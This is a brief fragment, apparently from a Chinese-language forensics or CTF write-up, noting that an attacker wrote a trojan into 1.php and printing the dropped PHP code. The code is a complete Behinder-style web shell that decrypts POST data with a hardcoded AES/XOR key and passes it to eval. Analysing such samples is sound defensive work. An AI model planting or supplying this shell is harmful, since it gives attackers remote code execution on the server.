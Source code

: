 ![image-20231210090814359](images/66.png)

看到在向1.php写马

```
<?php
@error_reporting(0);
session_start();
    $key="e45e329feb5d925b";
	$_SESSION['k']=$key;
	session_write_close();
	$post=file_get_contents("php://input");
	if(!extension_loaded('openssl'))
	{
		$t="base64_"."decode";
		$post=$t($post."");
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);

```
